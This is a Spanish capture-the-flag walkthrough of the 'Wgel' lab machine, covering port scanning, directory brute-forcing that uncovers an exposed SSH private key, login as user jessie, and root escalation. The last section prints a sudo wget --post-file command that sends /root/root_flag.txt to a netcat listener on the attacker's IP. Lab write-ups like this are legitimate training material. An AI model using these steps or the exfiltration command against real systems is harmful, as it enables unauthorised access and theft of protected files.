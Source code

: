 # Wgel CTF

## ENUMERACION

### ESCANEO DE PUERTOS

En primer lugar, para verificar la conectividad con nuestra máquina objetivo antes de realizar cualquier otro paso, podemos ejecutar un comando **ping** que envía un único paquete a la dirección IP que queremos verificar.

{% code lineNumbers="true" %}
```
ping -c1 {ip_address}
```
{% endcode %}

Después de haber realizado la verificación mencionada previamente, pasamos a llevar a cabo un escaneo de puertos utilizando la herramienta **nmap**. Para realizar esto, en el entorno de Kali Linux, ejecutamos el siguiente comando con privilegios de administrador y especificamos la dirección IP de la máquina objetivo.

{% code lineNumbers="true" %}
```
sudo nmap -sCV -p21,22,80 {ip_address} -oN /home/kali/Desktop/THM/Wgel/targeted
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image-20230712093142702.png" alt=""><figcaption></figcaption></figure>

En el ejemplo que se muestra, se han identificado dos puertos abiertos en el sistema en cuestión:

* **Puerto 22/TCP SSH**: El puerto 22 se encuentra abierto y está siendo utilizado por el protocolo SSH (Secure Shell). SSH se utiliza para proporcionar acceso seguro a través de una red, y es comúnmente utilizado para administrar sistemas remotos de forma segura. SSH permite la autenticación y el cifrado de la comunicación, lo que garantiza una conexión segura entre el cliente y el servidor.
* **Puerto 80/TCP HTTP**: El puerto 80 también está abierto y se utiliza para el tráfico HTTP (Hypertext Transfer Protocol). El protocolo HTTP se utiliza para la transferencia de información en la World Wide Web. En este caso, se menciona que Apache está siendo ejecutado en este puerto, lo que indica que se trata de un servidor web que utiliza el software Apache para servir páginas web.

Dado que no se disponen de las credenciales necesarias para acceder a SSH, es posible que nuestras opciones sean limitadas en cuanto a lo que podemos hacer directamente a través de este puerto. Por lo tanto, la sugerencia es examinar el sitio web alojado en el puerto 80 para obtener más información.

### PUERTO 80/TCP HTTP

Para comenzar nuestra investigación, accedemos al sitio web utilizando la dirección IP en nuestro navegador. Al observar la página, notamos que se trata de una página predeterminada del servidor Apache 2. A simple vista, no obtenemos mucha información relevante sobre nuestra máquina objetivo, por lo que decidimos adentrarnos en la inspección del código fuente de la página para descubrir cualquier detalle útil.

<figure><img src="../../.gitbook/assets/image-20230712093242507.png" alt=""><figcaption></figcaption></figure>

Durante la inspección del código fuente de la página, encontramos una línea que llama nuestra atención debido a la información que contiene. Esta línea menciona un nombre, el cual podría ser el nombre de usuario necesario para acceder a nuestra máquina objetivo a través del protocolo SSH. Esta pista es particularmente relevante, ya que el acceso SSH nos permitiría interactuar directamente con el sistema operativo de la máquina y potencialmente obtener un mayor nivel de control y acceso a la misma.

<pre data-line-numbers><code>&#x3C;!-- <a data-footnote-ref href="#user-content-fn-1">Jessie </a>don't forget to udate the webiste -->
</code></pre>

Dado que solo hemos obtenido el nombre de usuario como información hasta el momento, vamos a llevar a cabo un análisis de directorios utilizando la herramienta gobuster en la URL correspondiente. Este análisis nos permitirá descubrir posibles directorios y archivos ocultos en el servidor web de la máquina objetivo, lo cual podría brindarnos información adicional relevante.

{% code lineNumbers="true" %}
```
gobuster dir -u http://10.10.147.250/sitemap -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,html,zip,ssh
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image-20230712093401156.png" alt=""><figcaption></figcaption></figure>

Durante el análisis, se observa que se ha encontrado una página llamada **sitemap** que resulta interesante y que vamos a investigar más a fondo en busca de información relevante

<figure><img src="../../.gitbook/assets/image-20230712093526527.png" alt=""><figcaption></figcaption></figure>

Sin embargo, al investigar esta página no se obtiene ningún resultado significativo. Ante esta situación, decidimos volver a realizar otro análisis de directorios utilizando nuevamente la herramienta **gobuster** en la URL.

<figure><img src="../../.gitbook/assets/image-20230712094500859.png" alt=""><figcaption></figcaption></figure>

Durante este nuevo análisis, nos encontramos que **sitemap** oculta un archivo llamado **.ssh** que guarda otro archivo llamado **id\_rsa**. Este archivo en particular es una clave privada cifrada.

<figure><img src="../../.gitbook/assets/image-20230712094527362.png" alt=""><figcaption></figcaption></figure>

Dado que hemos encontrado la clave privada, decidimos guardarla en nuestro equipo en un archivo llamado **id\_rsa**. Esta clave privada será utilizada posteriormente para acceder a la máquina objetivo a través del protocolo **SSH**.

Utilizamos el comando `chmod 600 /ruta/id_rsa` para otorgarle permisos específicos. De esta forma el archivo **id\_rsa** solo será accesible por el propietario y no por otros usuarios o grupos.

Una vez que hayamos cambiado los permisos del archivo y lo hayamos configurado adecuadamente, podremos utilizar esta clave privada para acceder a la máquina objetivo mediante SSH.

### PUERTO 22/TCP SSH

Ahora que hemos obtenido las posibles credenciales para acceder a nuestra máquina a través de SSH, procederemos a verificar el acceso utilizando el siguiente comando.

```
ssh -i id_rsa jessie@<ip_address>
```

<figure><img src="../../.gitbook/assets/image-20230712094937819.png" alt=""><figcaption></figcaption></figure>

La conexión es correcta, así que ya estamos dentro de la maquina objetivo nuestro siguiente paso será buscar nuestra primera bandera. Vamos a utilizar el comando `ls -lAh *`, este comando nos mostrará una lista detallada de todos los archivos y directorios en el directorio actual, incluyendo aquellos que están ocultos.

Observamos que dentro del directorio **Documents** se encuentra un archivo llamado **user\_flag.txt**. Para acceder a este archivo y verificar su contenido, vamos a utilizar el comando `cd` para navegar hasta el directorio donde se encuentra y luego utilizaremos el comando `cat`.

<figure><img src="../../.gitbook/assets/image-20230712095310147.png" alt=""><figcaption></figcaption></figure>

En efecto, al examinar el contenido del archivo **user\_flag.txt**, hemos logrado encontrar nuestra primera bandera, conocida como la **bandera de usuario**.&#x20;

ESCALAR PRIVILEGIOS

Realizamos una breve enumeración utilizando el comando `sudo -l` y descubrimos que tenemos permisos para ejecutar el comando **wget**. Vamos a intentar explotar el comando wget para conseguir nuestra ultima bandera.

<figure><img src="../../.gitbook/assets/image-20230712095243816.png" alt=""><figcaption></figcaption></figure>

Necesitaremos configurar la escucha en el puerto 4445 utilizando netcat en el entorno local. Esto implica iniciar una instancia de netcat en modo de escucha en el puerto mencionado, lo que nos permitirá recibir conexiones entrantes y transferir datos.

<figure><img src="../../.gitbook/assets/image-20230712130713685.png" alt=""><figcaption></figcaption></figure>

Una vez que la escucha está activa, podemos utilizar el comando **wget** junto con el parámetro `--post-file` para enviar un archivo hacia una dirección IP específica, en nuestro caso, la dirección IP de nuestra VPN. Este comando nos permite enviar el archivo especificado en la ruta indicada a la ubicación deseada.

<pre data-line-numbers><code><strong>sudo /usr/bin/wget --post-file=/root/root_flag.txt http://{ip_local}:4445
</strong></code></pre>

Esperamos a que se establezca la conexión, después observamos que nuestra máquina local ha recibido el contenido del archivo **root\_flag.txt** y nos muestra la respuesta para nuestra última bandera.

<figure><img src="../../.gitbook/assets/image-20230712095837023.png" alt=""><figcaption></figcaption></figure>

[^1]: 
